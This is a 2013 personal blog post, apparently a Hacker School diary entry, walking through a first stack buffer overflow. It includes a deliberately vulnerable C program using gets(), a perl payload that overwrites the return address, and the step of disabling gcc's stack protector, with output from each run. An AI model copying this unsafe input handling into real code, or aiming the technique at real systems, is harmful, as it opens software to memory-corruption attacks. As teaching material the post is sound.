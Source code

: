 ```yaml
---
layout: post
title: "Day 17: How to write a buffer overflow exploit"
date: 2013-10-28 23:08
comments: true
categories: hackerschool coding security
---
```


I've declared this week to be the week of networks & security.

Today I started reading the excellent book 
[Hacking: The Art of Exploitation](http://nostarch.com/hacking2.htm)
by Jon Erickson. I learned a lot about how different parts and how MAC address
spoofing actually works.

But! Buffer overflows! I worked with Travis and Daphne today and we made one
work!

Okay. Here is a program with a vulnerability, made extra easy to exploit:

```c
#include <stdio.h>
#include <string.h>

char password[] = "super_secret";

void foo(void) {
  printf("You hacked me! Here is the secret password: %s\n", password);
  fflush(stdout);
}

int main(int argc, char *argv[]) {
  char buf[4];

  printf("Here is the address of foo: %p\nWhat is your hacking text? ", foo);
  fflush(stdout);

  gets(buf);

  printf("You entered: %s\n", buf);
  fflush(stdout);

  return 0;
}
```

The idea is that we're going to put a string, then make the program jump to
the address of `foo` instead of returning. I couldn't get this to work on my
64-bit machine for some reason, so I told it to be 32-bit instead and it
worked. If you know why please tell me!

```
$ gcc -m32 test.c -o test
$ perl -e 'print "aaaa" . "\x64\x84\x04\x08" x 4' | ./test
Here is the address of foo: 0x80484b4
What is your hacking text? You entered: aaaa���
*** stack smashing detected ***: ./a.out terminated
======= Backtrace: =========
/lib/i386-linux-gnu/libc.so.6(__fortify_fail+0x45)[0xf7663eb5]
/lib/i386-linux-gnu/libc.so.6(+0x104e6a)[0xf7663e6a]
./a.out[0x8048561]
/lib/i386-linux-gnu/libc.so.6(__libc_start_main+0xf3)[0xf75784d3]
./a.out[0x8048421]
```

Oh look! It turns out that gcc already knows about this exploit and has special built-in protections! We can disable those, though...

```
$ gcc -fno-stack-protector -m32 test.c -o test
$ perl -e 'print "aaaa" . "\x64\x84\x04\x08" x 4' | ./test
Here is the address of foo: 0x8048464
What is your hacking text? You entered: aaaadddd�
You hacked me! Here is the secret password: super_secret
[1]    26357 done                              perl -e 'print "aaaa" . "\x64\x84\x04\x08" x 4' |
 
       26358 segmentation fault (core dumped)  ./a.out
```

BOOM. We win!

What happened here? At the end of the stack, there's the address that the
function needs to jump back to when it returns. Since `gets` doesn't know how
many characters to read into buf, it keeps reading into the stack until the
string is over and writes over that address. We don't know exactly where the
address is, so we keep writing it over and over and over again until it works.

Also! Notice how we had to reverse the order of. the memory address to be
`"\x64\x84\x04\x08"` instead of `\x08\x04\x84\x64`. This is because memory is
laid out in a little-endian way. "Little-endian" basically means "backwards".
Intel architectures are always like this. [wikipedia](http://en.wikipedia.org/wiki/Endianness) for more on endianness. 

There are smarter ways to deal with this issue of not knowing where the end of
the stack is ("NOP sleds"!), but this one is simpler and so it is what we did.
